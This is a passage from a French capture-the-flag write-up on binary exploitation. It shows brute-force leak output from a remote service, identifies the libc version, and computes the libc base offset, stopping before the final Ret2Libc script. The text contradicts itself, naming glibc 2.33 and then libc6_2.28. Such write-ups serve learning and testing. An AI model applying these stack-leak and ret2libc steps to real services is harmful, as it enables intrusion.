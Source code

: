 ```python
Leak_puts()
```

Résultat :
```bash
303  |  b'thanks, see you later'
304  |  b'thanks, see you later'
305  |  b'thanks, see you later\n*** stack smashing detected ***: terminated'
306  |  b'thanks, see you later'
307  |  b'thanks, see you later\n*** stack smashing detected ***: terminated'
308  |  b'thanks, see you later'
309  |  b'thanks, see you later'
310  |  b'thanks, see you later'
311  |  b'thanks, see you later'
312  |  b'thanks, see you later\n*** stack smashing detected ***: terminated'
313  |  b'thanks, see you later\nGNU C Library (Debian GLIBC 2.33-1) release release version 2.33.\nCopyright (C) 2021 Free Software Foundation, Inc.\nThis is free software; see the source for copying conditions.\nThere is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A\nPARTICULAR PURPOSE.\nCompiled by GNU CC version 10.3.1 20211117.\nlibc ABIs: UNIQUE IFUNC ABSOLUTE\nFor bug reporting instructions, please see:\n<http://www.debian.org/Bugs/>.'
314  |  b'thanks, see you later'
315  |  b'thanks, see you later\nGNU C Library (Debian GLIBC 2.33-1) release release version 2.33.\nCopyright (C) 2021 Free Software Foundation, Inc.\nThis is free software; see the source for copying conditions.\nThere is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A\nPARTICULAR PURPOSE.\nCompiled by GNU CC version 10.3.1 20211117.\nlibc ABIs: UNIQUE IFUNC ABSOLUTE\nFor bug reporting instructions, please see:\n<http://www.debian.org/Bugs/>.'
316  |  b'thanks, see you later'
317  |  b'thanks, see you later'
318  |  b'thanks, see you later'
319  |  b'thanks, see you later\n*** stack smashing detected ***: terminated'
320  |  b'thanks, see you later'
321  |  b'thanks, see you later'
322  |  b'thanks, see you later'
```

Hourra ! Nous avons la libc : ``(Debian GLIBC 2.33-1) release release version 2.33`` !
Plus exactement : **libc6_2.28-10deb10u1_amd64.so**

###### Finalisation

Maintenant que nous avons la libc , il nous faut trouver la base de celle exécuté en remote ou trouver un leak .

Nous avons pris du temps à réaliser que l'adresse après la ``PIE`` , elle même après le ``Canary`` était en faite l'adresse ``libc_start_main_ret`` et non ``rip`` comme nous pensions .

Grâce à [libc-database](https://github.com/niklasb/libc-database) , on peut trouver l'offset pour obtenir la base de la libc

```
./dump libc6_2.28-10+deb10u1_amd64 __libc_start_main_ret
offset___libc_start_main_ret = 0x2409b
```

Voici le script final avec un **Ret2Libc** similaire à mon précédent writeup .
